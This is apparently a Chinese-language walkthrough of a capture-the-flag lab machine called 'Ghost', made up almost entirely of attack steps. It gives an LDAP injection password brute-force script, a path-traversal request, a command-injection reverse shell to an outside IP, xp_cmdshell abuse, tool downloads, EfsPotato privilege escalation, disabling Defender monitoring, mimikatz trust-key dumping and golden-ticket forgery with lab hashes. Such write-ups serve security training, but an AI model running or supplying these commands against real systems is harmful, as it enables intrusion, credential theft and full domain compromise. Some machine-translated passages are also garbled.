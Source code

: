 # GHost

端口扫描

![image-20240726143948706](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726143948706.png)

通过子网枚举发现子网(sub)

需要在/etc/hosts文件中添加配置

![image-20240726143910774](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726143910774.png)

子网1：

```
http://intranet.ghost.htb:8008
```

可以用登录

```
*/*
```

gitea.ghost.htb用户

![image-20240726143517114](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726143517114.png)

密码爆破脚本

```python
import string
import requests

url = 'http://intranet.ghost.htb:8008/login'

headers = {
    'Host': 'intranet.ghost.htb:8008',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Next-Action': 'c471eb076ccac91d6f828b671795550fd5925940',
    'Connection': 'keep-alive'
}

files = {
    '1_ldap-username': (None, 'gitea_temp_principal'),
    '1_ldap-secret': (None, 's*'),
    '0': (None, '[{},"$K1"]')
}


passw = ""
while True:
    for char in string.ascii_lowercase + string.digits:
        files = {
            '1_ldap-username': (None, 'gitea_temp_principal'),
            '1_ldap-secret': (None, f'{passw}{char}*'),
            '0': (None, '[{},"$K1"]')
        }
        res = requests.post(url, headers=headers, files=files)
        if res.status_code == 303:
            passw += char
            print(f"Passwd: {passw}")
            break
    else:
        break
print(passw)
```

子网2:

```
http://gitea.ghost.htb:8008/
```

根据提示找到key

![image-20240726143345380](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726143345380.png)

```
http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../proc/self/environ&key=37395e9e872be56438c83aaca6
```

![image-20240726135532328](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726135532328.png)



后门

```
http://gitea.ghost.htb:8008/ghost-dev/intranet/src/branch/main/backend/src/api/dev/scan.rs
```

![image-20240726143253785](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726143253785.png)

反弹shell的payload.sh

```
#!/bin/bash

curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url": "0<&196;exec 196<>/dev/tcp/10.10.16.20/4444; /bin/bash <&196 >&196 2>&196"}'
```

![image-20240726135351813](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726135351813.png)

![image-20240726135411980](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726135411980.png)



![image-20240726135437673](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726135437673.png)

有个mssql用户

![image-20240726143658669](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726143658669.png)

在*.sh发现key

![1_JKjJMqNu9m0LpKUDFWacmg](C:\Users\andi\Pictures\1_JKjJMqNu9m0LpKUDFWacmg.webp)

登录mssql

```
impacket-mssqlclient florence.ramirez:'uxLmt*udNc6t3HrF'@Ghost.htb -windows-auth
```

![image-20240726132905849](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726132905849.png)



开启xp_cmdshell(默认是关的)

```
 enum_links
 use_link [PRIMARY]
 use master
 exec_as_login sa
 EXEC sp_configure 'show advanced options', 1
 RECONFIGURE;
 EXEC sp_configure 'xp_cmdshell', 1;
 RECONFIGURE;
 EXEC sp_configure 'xp_cmdshell';
```

```
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.x.x/nc64.exe -OutFile $env:TEMP\nc.exe"';
```

![image-20240726132956421](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726132956421.png)





权限是mssqlserver,通过EfsPotato提权，脚本地址

```
 https://github.com/zcgonvh/EfsPotato
```

mssql终端运行

```
powershell -c "Invoke-WebRequest -Uri http://10.10.16.20:9090/EfsPotato.cs -OutFile C:\Users\Public\Documents\EfsPotato.cs"


powershell -c "Invoke-WebRequest -Uri http://10.10.16.20:9090/nc.exe -OutFile C:\Users\Public\Documents\nc.exe"
```



上传到C:\Users\Public\Documents目录下，确保有权限执行

![image-20240726133524441](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726133524441.png)

![image-20240726133535072](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726133535072.png)

![image-20240726133728205](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726133728205.png)

![image-20240726133737383](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726133737383.png)



```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
```



![image-20240726134535672](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726134535672.png)



```
EfsPotato.exe "nc.exe -e cmd.exe 10.10.16.20 6666"
```

![image-20240726134738581](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726134738581.png)

![image-20240726134759567](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726134759567.png)



关闭真实时间监听，上传mimikatz.exe并转储森林信任密钥。林信任密钥可以是Upload mimikatz.exe并转储林信任密钥。森林信任密钥可用于伪造域间信任票据。

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

```
powershell -c "Invoke-WebRequest -Uri http://10.10.16.20:9090/mimikatz.exe -OutFile C:\Users\Public\Documents\mimikatz.exe"
```

```
mimikatz.exe "lsadump::trust /patch" exit
```

![image-20240726153733487](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726153733487.png)

```
PS C:\users\administrator\Desktop> Convert-NameToSid ghost.htb\krbtgt
Convert-NameToSid ghost.htb\krbtgt
S-1-5-21-4084500788-938703357-3654145966-502
PS C:\users\administrator\Desktop>
Get-DomainSID
S-1-5-21-2034262909-2733679486-179904498
```



```
SID of corp.ghost.htb domain: S-1-5-21-2034262909-2733679486-179904498
SID of ghost.htb domain: S-1-5-21-4084500788-938703357-3654145966
SID of enterprise admins: S-1-5-21-4084500788-938703357-3654145966-519
GHOST$ ntlm hash: dae1ad83e2af14a379017f244a2f5297
krbtgt aes256: b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d
```



```
cd C:\users\administrator\Desktop
```

```
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1–5–21–2034262909–2733679486–179904498–502 /sids:S-1–5–21–4084500788–938703357–3654145966–519 /rc4:dae1ad83e2af14a379017f244a2f5297 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi" exit
```



![image-20240726154819468](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726154819468.png)



```
最后上传Rubeus.exe并模拟Admin以获取标志。确保使用预先编译的Rubeus版本，避免等待
```

```
powershell -c "Invoke-WebRequest -Uri http://10.10.16.20:9090/Rubeus.exe -OutFile C:\Users\Public\Documents\Rubeus.exe"
```

![image-20240726160711157](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726160711157.png)

![image-20240726160755956](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726160755956.png)



```
Rubeus.exe asktgs /ticket:golden.kirbi /dc:dc01.ghost.htb /service:CIFS/dc01.ghost.htb /nowrap /ptt
```

![image-20240726160857859](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240726160857859.png)